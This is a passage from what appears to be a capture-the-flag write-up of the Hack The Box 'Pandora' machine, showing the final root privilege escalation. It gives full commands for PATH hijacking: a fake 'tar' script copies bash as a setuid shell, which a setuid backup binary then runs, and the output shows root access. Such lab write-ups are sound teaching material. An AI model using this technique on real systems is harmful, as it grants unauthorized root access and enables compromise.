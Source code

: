 Using `strings` on the previously discovered setuid binary `/usr/bin/pandora_backup` reveals this:

```console
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
...
```

Since the binary calls `tar` with a relative path, I can hijack it.

```console
matt@pandora:~$ cat tar
cp /bin/bash /bin/bashx && chmod u+s /bin/bashx
matt@pandora:~$ chmod +x tar
matt@pandora:~$ export PATH=.:$PATH
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup successful!
Terminating program!
matt@pandora:~$ bashx -p
bashx-5.0# id
uid=1000(matt) gid=1000(matt) euid=0(root) groups=1000(matt)
bashx-5.0#
```

## Open Questions

- How would I have done this without `sqlmap`?

## Credits

- [0xdf](https://0xdf.gitlab.io/2022/05/21/htb-pandora.html)
